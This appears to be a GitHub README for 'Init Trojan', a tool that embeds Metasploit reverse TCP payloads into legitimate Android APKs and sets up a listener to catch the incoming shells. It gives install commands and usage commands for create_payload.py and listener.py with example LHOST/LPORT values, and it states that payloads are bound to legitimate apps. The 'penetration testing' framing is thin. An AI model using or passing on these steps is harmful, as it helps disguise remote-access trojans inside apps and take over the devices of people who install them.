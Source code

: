 # Init Trojan
 
**A powerful tool for creating and managing reverse shell payloads with seamless listener setup.**

---

## Table of Contents
- [About the Project](#about-the-project)
- [Features](#features)
- [Prerequisites](#prerequisites)
- [Usage](#usage)
  - [1. Create Payload](#1-create-payload)
  - [2. Setup Listener](#2-setup-listener)
- [Screenshots](#screenshots)
- [Links](#links)

---

## About the Project

**Init Trojan** simplifies the process of creating and managing payloads for penetration testing. This repository contains two primary scripts:
1. **create_payload.py**: For generating a custom payload embedded in an Android APK.
2. **listener.py**: For setting up and running a Metasploit listener to capture incoming connections.

Both tools focus on providing user-friendly command-line interfaces with sleek aesthetics and detailed help instructions.

---

## Features

- **Payload Generation**: Bind reverse TCP payloads to legitimate APK files.
- **Automated Listener Configuration**: Configure and launch a listener via Metasploit.
- **User-Friendly CLI**: Intuitive argument parsing with usage examples and error handling.
- **Stylish Output**: Enhanced aesthetics with colored terminal outputs.

---

## Prerequisites

Ensure the following dependencies are installed on your system:

- **Python 3.x**
- **Metasploit Framework**
- **apktool** (for payload embedding)
- Python libraries:
  - termcolor

```
sudo apt-get install metasploit-framework apktool
pip install termcolor
```


---

## Usage

### 1. Create Payload
To generate a payload embedded in an APK file:

```
sudo python3 create_payload.py --lhost <YOUR_IP> --lport <PORT> --output_apk <OUTPUT_APK_PATH> --original_apk <ORIGINAL_APK_PATH>
```


Example:

```
sudo python3 create_payload.py --lhost 192.168.1.100 --lport 4444 --output_apk payload.apk --original_apk original.apk
```


### 2. Setup Listener
To configure and launch a listener for capturing reverse connections:

```
sudo python3 listener.py --lhost <YOUR_IP> --lport <PORT>
```


Example:

```
sudo python3 listener.py --lhost 192.168.1.100 --lport 4444
```


---

## Screenshots

### Payload Creation
![Create Payload Execution](img/create_payload.png)

### Listener Setup
![Listener Execution](img/listener.png)

---


## Links

- **GitHub Repository**: [Init Trojan on GitHub](https://github.com/inits5/)
- **Telegram Channel**: [Scripted Seer](https://t.me/scripted_seer)
